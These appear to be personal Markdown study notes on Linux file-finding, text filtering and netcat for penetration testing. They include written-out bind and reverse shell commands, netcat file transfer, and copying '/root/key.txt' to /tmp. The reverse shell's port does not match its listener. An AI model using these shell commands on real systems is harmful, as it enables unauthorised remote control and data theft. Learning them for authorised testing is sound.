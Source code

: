 # Linux basics
A list of commands and techniques that are useful for getting around the file system and enumerating. I'm writing them down because they're easy to forget or mix up.

## Finding things

There are some basic commands to find files and executables, but each one works differently.

### Locate

Search against an index which must be updated periodically:
```
updatedb
locate nc.exe
```
### Which
Search through directories defined in the `$PATH` environment variable:
```
which gcc
```
### Find
Search recursively through directories: 
```
find / -name cron*
```
### Ls
Never use the basic command, always list directory contents showing owner and including dot files like `bash_history`:
```
ls -la
-rw-------    1 joe  staff   6863 26 Sep 17:12 .bash_history
-rw-r--r--    1 joe  staff    200 23 Jul 14:36 .bash_profile
drwx------  129 joe  staff   4128  1 Oct 15:41 .bash_sessions
```

## Basic Bash scripting
This isn't even really Bash scripting, it's more about how to chain commands together to do useful things.

### Filter
Being able to process text-based files and pull out useful data is a useful skill. For example, to filter out domain names from an HTML file full of other stuff, you can `grep` for something uniquely associated with URLs, then cut out extraneous information:

```
<li><a href="http://newsroom.cisco.com/">Newsroom</a></li> # links you'd find in HTML

grep "href=" file.html | cut -d "/" -f 3
```
In the above example, we are grepping for `href=` which identifies hyperlinks in HTML. We can filter more precisely by looking for recurring characters that help us divide the data into smaller chunks. The command `cut -d "/"` chunks the data and separates it by `/`. The `-f 3` option tells us to filter out the 3rd chunk (field) of data. 

### Sort
Find unique items in a list with duplicates using `sort -u`:
```
grep "href=" file.html | cut -d "/" -f 3 | sort -u
```

### Simple loop
Run the `host` command on every domain in a text file:
```
for url in $(cat list.txt); do host $url; done
```
Grep the output of `host` to find successful lookups:
```
for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u
```
In the above example, you're looking for lines with `has address`, filtering out the URL by using spaces as the delimiter and then removing duplicates with `sort`. 

### Directing output

Direct output to a file with `>`:
```
cat /root/key.txt > /tmp/key.txt
```
Append output to a file with `>>`:
```
cat /root/key.txt >> /tmp/key.txt
```
Direct output to another command with `|`:
```
grep "href=" file.html | cut -d "/" -f 3
```
## Netcat

### Connect to a port
Connect to an open TCP or UDP port (e.g. mail service) to see if it responds:
```
nc -nv [host] 110
(UNKNOWN) [host] 110 (pop3) open
+OK POP3 server ready
```
### Bind shell
Bob (Windows) wants Alice (Linux) to connect to his computer remotely and issue commands. Bob sets up a listener which allows anyone connect to port 443 to issue commands via `cmd.exe`:
```
nc -nlvp 443 -e cmd.exe
```
Alice then connects to Bob's machine and gets a Windows command prompt:
```
nc -nv [bob] 443
```
### Reverse shell
Netcat can also send a command shell to a listening host. Let's say Alice (Linux) wants Bob (Windows) to issue remote commands to her computer. 

Bob sets up a listener on his machine:
```
nc -nlvp 443
listening on [any] 443...
```
Alice then sends control of her command prompt to Bob's machine, via netcat:
```
nc -nv [bob] 4444 -e /bin/bash
```
This is what hackers mean by popping shells, but usually it's getting a web server/deasktop to send a reverse shell to your attack machine.

### Transfer files
To transfer files, set up a listener and redirect the output to a filename:
```
nc -nlvp 443 > nc.exe # receiving machine
listening on [any] 443...

nc -nv [host] 443 < nc.exe # sending machine pushes file
(UNKNOWN) [host] 443 (?) open
```

## Further reading
* [Linux Journey](https://linuxjourney.com/)
